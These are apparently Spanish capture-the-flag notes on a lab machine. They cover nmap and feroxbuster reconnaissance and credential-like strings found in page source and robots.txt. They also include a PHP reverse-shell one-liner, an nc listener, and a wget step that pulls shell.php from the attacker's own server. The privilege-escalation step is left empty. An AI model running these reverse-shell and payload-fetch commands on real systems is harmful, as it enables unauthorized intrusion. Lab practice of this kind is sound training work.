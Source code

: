 ## Objetivos

## Procesos

### Escanear puertos

```
nmap <ip> -A -T4 -p <puertos_a_escanear> -oX <output.xml>
```

```
nmap 10.10.156.68 -A -T4 -p 22,80 -oX pickleR.xml
```

### Fuzzeo

```
feroxbuster -u <URL> -t <THREADS> -L <SCAN_LIMIT> -n <NO_RECURSION> -w <WORD_LIST> -o <OUTPUT>
```

```
feroxbuster -u http://10.10.156.68:80 -t 5 -L 5 -n -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o feroxBPickleR.txt
```

### Pagina web

- Inspeccionar codigo

R1ckRul3s

- `/robots.txt`

Wubbalubbadubdub

#### `/portal.php`

Posible XSS

### Reverse Shell

Ver que la página esta hecha en PHP a traves de Wappalizer (extension) buscar reverse sheel en [internal all the things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php).

```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Cargar reverse shell:

1. Escuchar en un puerto

```
nc -nvlp 8085
```

2. Cargar script anterior en los comentarios de `/portal.php`:

3. Escalada de privilegios

4. Levantar servidor python:

   ```
   python3 -m http.server 80
   ```

5. Conectarme al servidor desde la máquina objetivo

   ```
   wget http://10.21.104.33/shell.php
   ```
